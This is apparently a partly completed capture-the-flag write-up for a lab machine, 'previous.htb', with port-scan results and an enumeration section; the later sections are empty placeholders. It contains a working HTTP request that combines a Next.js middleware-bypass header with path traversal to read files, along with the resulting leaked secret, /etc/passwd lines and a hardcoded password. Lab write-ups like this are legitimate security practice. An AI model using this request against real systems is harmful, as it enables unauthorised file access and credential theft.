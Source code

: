 ```yaml
---
os: linux
status: Active
tags:
aliases:
---
```

---

# Information Gathering

Scanned top TCP ports:

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://previous.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated open TCP ports:

```sh

```

---

# Enumeration

## Port 80 - HTTP (Apache)

found contact to:
```
jeremy@previous.htb
```


looking around
```js
{"credentials":{"id":"credentials","name":"Credentials","type":"credentials","signinUrl":"http://localhost:3000/api/auth/signin/credentials","callbackUrl":"http://localhost:3000/api/auth/callback/credentials"}}
```

After a while of searching, found CVE in nextjs that enable me to bypass security controls, just by adding specific header. Then found a end point that i can use to do LFI.
```http
GET /api/download?example=../../package.json HTTP/1.1
Host: previous.htb
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: next-auth.csrf-token=75113a9f8acf2b5bfc60729770877c7bf1b0b90eb86e422e3adc63e54af7c45d%7Cd068f58d2efcca479d14be93682dcf0b71ffb2619294f679f350dee06dec8f47; next-auth.callback-url=http%3A%2F%2Flocalhost%3A3000%2Fdocs
Connection: keep-alive
```

```
.env
pages/
public/
.next/
```

```
.env file
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

```
/etc/passwd

nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```

```js
MyNameIsJeremyAndILovePancakes

authorize: async e => e?.username === "jeremy" && e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes") ? {

id: "1",

name: "Jeremy"

} : null

})],

pages: {

signIn: "/signin"

},

9￼} : null
10￼
11￼})],
12￼
secret: process.env.NEXTAUTH_SECRET

},
```
---

# Exploitation

## SQL Injection


---

# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---

# Privilege Escalation to xxx

## Local enumeration


## Privilege Escalation vector


---

# Trophy

{{image}}

>[!todo] **User.txt**
>flag

>[!todo] **Root.txt**
>flag

**/etc/shadow**

```sh

```

# Resolution summary

>[!summary]
>- Step 1
>- Step 2
